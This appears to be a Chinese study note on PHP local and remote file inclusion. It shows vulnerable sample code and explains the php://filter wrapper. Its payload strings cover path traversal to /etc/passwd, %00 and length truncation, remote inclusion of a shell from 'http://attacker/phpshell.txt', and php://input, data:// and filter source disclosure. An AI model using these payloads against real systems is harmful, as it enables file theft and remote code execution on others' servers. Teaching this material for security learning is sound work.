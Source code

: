 ### 文件包含函数
php:include(),include_once(),require(),require_once();
JSP：ava.io.File(),java.io.FileReader()等
ASP:includefile,includevirtual
##### 本地文件包含
```php
<?php 
$file = $_GET['file']; 
if (file_exists('/home/wwwrun/'.$file.'.php')) { 
	include '/home/wwwrun/'.$file.'.php'; } 
?>
```
上述代码存在本地文件包含，可用 %00 截断的方式读取 `/etc/passwd` 文件内容。

###### - `%00` 截断
`?file=../../../../../../../../../etc/passwd%00`
==需要 `magic_quotes_gpc=off`，PHP 小于 5.3.4 有效。==
###### - 路径长度截断

`?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.`

Linux 需要文件名长于 4096，Windows 需要长于 256。
###### - 点号截断

`?file=../../../../../../../../../boot.ini/………[…]…………`

只适用 Windows，点号需要长于 256。

##### 远程文件包含
```php
<?php 
if ($route == "share") { 
	require_once $basePath . "/action/m_share.php"; 
} elseif ($route == "sharelink") { 
	require_once $basePath . "/action/m_sharelink.php"; 
}
?>

```
构造变量 `basePath` 的值。

`/?basePath=http://attacker/phpshell.txt?`

最终的代码执行了

`require_once "http://attacker/phpshell.txt?/action/m_share.php";`

==问号后的部分被解释为 URL 的 querystring，这也是一种「截断」。==
###### - 普通远程文件包含

`?file=[http|https|ftp]://example.com/shell.txt`

需要 `allow_url_fopen=On` 并且 `allow_url_include=On` 。

###### - 利用 PHP 流 input

`?file=php://input`

需要 `allow_url_include=On` 。

###### - 利用 PHP 流 filter

`?file=php://filter/convert.base64-encode/resource=index.php`

需要 `allow_url_include=On` 。

###### - 利用 data URIs

`?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`

需要 `allow_url_include=On` 。

###### - 利用 XSS 执行

`?file=http://127.0.0.1/path/xss.php?xss=phpcode`

需要 `allow_url_fopen=On`，`allow_url_include=On` 并且防火墙或者白名单不允许访问外网时，先在同站点找一个 XSS 漏洞，包含这个页面，就可以注入恶意代码了。











## PHP伪协议
[PHP伪协议详解-CSDN博客](https://blog.csdn.net/cosmoslin/article/details/120695429)

####  php流过滤 php://filter
php://filter 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、 file() 和 file_get_contents()， 在数据流内容读取之前没有机会应用其他过滤器。

简单通俗的说，==这是一个中间件，在读入或写入数据的时候对数据进行处理后输出的一个过程==
**php://filter**可以获取指定文件源码。当它与包含函数结合时，==php://filter流会被当作php文件执行。==所以我们一般对其进行编码，让其不执行。从而导致 任意文件读取。
协议参数

|名称|描述|
|---|---|
|`resource=<要过滤的数据流>`|这个参数是必须的。它指定了你要筛选过滤的数据流。|
|`read=<读链的筛选列表>`|该参数可选。可以设定一个或多个过滤器名称，以管道符（`\|`）分隔。|
|`write=<写链的筛选列表>`|该参数可选。可以设定一个或多个过滤器名称，以管道符（`\|`）分隔。|
|`<；两个链的筛选列表>`|任何没有以 `read=` 或 `write=` 作前缀 的筛选器列表会视情况应用于读或写链。|

常用：

```php
php://filter/read=convert.base64-encode/resource=index.php
php://filter/resource=index.php
```
利用filter协议读文件±，将index.php通过base64编码后进行输出。这样做的好处就是如果不进行编码，文件包含后就不会有输出结果，而是当做php文件执行了，==而通过编码后则可以读取文件源码。==
而使用的convert.base64-encode，就是一种过滤器。
